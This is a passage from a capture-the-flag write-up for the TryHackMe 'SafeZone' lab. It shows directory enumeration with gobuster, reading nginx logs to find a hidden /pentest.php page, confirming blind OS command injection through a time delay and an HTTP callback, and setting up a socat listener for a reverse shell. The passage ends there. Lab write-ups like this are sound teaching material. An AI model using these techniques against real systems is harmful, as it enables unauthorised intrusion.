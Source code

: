 It's `nginx`.

**Let's enumerate hidden directories and files via `gobuster`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# gobuster dir -u http://127.0.0.1:8001/ -w /usr/share/wordlists/dirb/big.txt -t 100 php,html
```

**At the same time, let's try to find `nginx` log files:**
```
www-data@safezone:/var/www/html$ cat /var/log/nginx/access.log
[...]
127.0.0.1 - - [29/Jan/2021:23:50:11 +0530] "GET /hey.php HTTP/1.1" 502 584 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36"
[...]
127.0.0.1 - - [30/Jan/2021:14:17:20 +0530] "GET /pentest.php HTTP/1.1" 404 209 "http://127.0.0.1:8000/login.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36"
[...]
```

Hmm... `/pentest.php`? Sounds interesting:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230031813.png)

We can send some messages to user `yash`?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230031910.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230031916.png)

After some testing, I found that it's vulnerable to **blind OS command injection**, as no result displayed to us:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230032454.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230032533.png)

It indeed has 10 seconds time delay!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230032707.png)

```
10.10.245.138 - - [30/Dec/2022 03:26:41] "GET / HTTP/1.1" 200 -
```

Cool.

**Now we can try to get a reverse shell!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4445
2022/12/30 03:28:04 socat[135993] N opening character device "/dev/pts/1" for reading and writing
2022/12/30 03:28:04 socat[135993] N listening on AF=2 0.0.0.0:4445
```
